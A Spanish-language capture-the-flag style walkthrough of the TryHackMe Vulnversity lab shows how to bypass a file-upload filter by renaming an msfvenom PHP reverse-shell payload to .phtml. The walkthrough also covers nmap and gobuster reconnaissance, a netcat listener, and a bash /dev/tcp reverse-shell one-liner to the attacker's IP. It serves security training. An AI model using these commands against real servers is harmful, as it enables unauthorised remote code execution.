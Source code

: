 # Bypass Restricción de File Upload

Maquinas a utilizar **Kali Linux y** [https://tryhackme.com/room/vulnversity](https://tryhackme.com/room/vulnversity)

Es posible que en diversas ocasiones no podamos subir directamente un archivo en .php dentro de un panel de subida de archivos, por lo que tenemos que encontrar la forma de hacer un bypass de este tipo de restricciones; y una de las posibles formas es cambiar la extensión de nuestro payload, para que no sea .php pero que a su vez también funcione con php.

- Configuración del laboratorio.
    - Antes de arrancar nuestra Kali Linux ponemos nuestro adaptador de red como adaptador puente . Y arrancamos la maquina.
        
        ![image.png](./imagenes/image%2076.png)
        
    
    - Entramos en la web de la maquina vulnversity  y nos registremos .
    - Nos vamos al botón Access Machines en la parte superior de la pagina.
        
        ![image.png](./imagenes/image%2077.png)
        
    - Escogemos Linux y pulsamos al enlace Download donde nos descargara un archivo para una conexión VPN.
    - Copiamos el archivo al escritorio de nuestra maquina Kali Linux.
    - Abrimos un terminal y ejecutamos el siguiente comando como **root**.
        
        ![image.png](./imagenes/image%2078.png)
        
        ![image.png](./imagenes/image%2079.png)
        
    
    - Pulsamos en Start Machine
        
        ![image.png](./imagenes/image%2080.png)
        
    
    - Esperamos hasta que nos muestre la IP de nuestra maquina victima.
        
        ![image.png](./imagenes/image%2081.png)
        
    - Sin cerrar el terminal que tenemos abierto. Abrimos otra terminal en nuestra maquina Kali. y hacemos un ping a nuestra maquina victima para verificar la conectividad.
        
        ```bash
        ping -c 1 10.10.191.250 
        ```
        
        ![image.png](./imagenes/image%2082.png)
        
    - Como estamos a través de un VPN si hacemos un `ifconfig` nos mostrara una **nueva interface de red** llamada **turn0**. Que es la que vamos a utilizar y nuestra IP será en mi caso **10.21.166.149.**
        
        ![image.png](./imagenes/image%2083.png)
        

---

- Vamos hacer un nmap a la maquina victima.
    
    ```bash
    nmap -p- -sS -sV -sC --open -min-rate 5000 -n -vvv -Pn 10.10.191.250
    ```
    
    ![image.png](./imagenes/image%2084.png)
    
    Nos fijamos que tiene levantado un **servidor web en el puerto 3333**.
    
- Abrimos el navegador y copiamos la IP de la maquina victima en la URL. Pero como el servidor web no esta corriendo por el puerto 80 que es el de por defecto debemos indicarle el puerto.
    
    **`http://10.10.191.250:3333/`**
    
    ![image.png](./imagenes/image%2085.png)
    

- Hacemos **Fuzzing Web** utilizando la IP de la maquina victima y el puerto donde esta corriendo el servidor web.
    
    ```bash
    gobuster dir -u http://10.10.191.250:3333/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
    ```
    
    ![image.png](./imagenes/image%2086.png)
    
    Nos encontró un directorio que se llama internal
    
- Probamos la URL en el navegador web
    
    ![image.png](./imagenes/image%2087.png)
    

Tenemos un panel de subidas de archivos. Podríamos crear un php malicioso con msfvenom para tener control remoto de la maquina. Pero esto en ocasionas no es posible por que la web tiene algún tipo de limitador que impide subir archivos en php, algo normal por que dejar subir archivos php es un fallo de seguridad.

Vamos a intentar hacer un bypass a esta limitación.

- Creamos con msfvenom un playload con extensión php.
    
    ```bash
    msfvenom -p php/reverse_php LHOST=10.21.166.149 LPORT=443 -f raw > pwned2.php 
    ```
    
    ![image.png](./imagenes/image%2088.png)
    
- Le cambiamos **la extensión a phtml que a efectos prácticos seria como si fuera php.**
    
    ```bash
    mv pwned2.php pwned2.phtml
    ```
    
    ![image.png](./imagenes/image%2089.png)
    

- Vamos a subirlo por la pagina web.
    
    ![image.png](./imagenes/image%2090.png)
    

- Volvemos a hacer  **Fuzzing Web** pero esa vez dentro del directorio **internal** para ver si encontramos donde guarda los archivos.
    
    ```bash
    gobuster dir -u http://10.10.191.250:3333/internal/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
    ```
    
    ![image.png](./imagenes/image%2091.png)
    

- Escribimos en el navegador la URL `http://10.10.191.250:3333/internal/uploads/`
    
    ![image.png](./imagenes/image%2092.png)
    
- Ponemos netcat a la escucha en el puerto que habíamos escogido en msfvenom.
    
    ```bash
    nc -nlvp 443
    ```
    

- Ejecutamos nuestro archivo en el navegador y tendríamos la conexión
    
    ![image.png](./imagenes/image%2093.png)
    
- Recordemos que las conexiones con netcat y msfvenom no duran mucho tiempo así que tenemos que estabilizarla.
    - En otra terminal nos ponemos a la escucha en otro puerto , por ejemplo en el 444
    - Usaremos la web [**Online - Reverse Shell Generator](./imagenes/https://www.revshells.com/)** para crear la revershell.
        
        ![image.png](./imagenes/image%2094.png)
        
    - En la conexión del puerto 443 escribimos lo siguiente:
        
        `bash -c "**sh** -i >& /dev/tcp/**10.21.166.149**/**444** 0>&1"`
        
        ![image.png](./imagenes/image%2095.png)
        
    
    - Ya tendíamos una conexión estable.
        
        ![image.png](./imagenes/image%2096.png)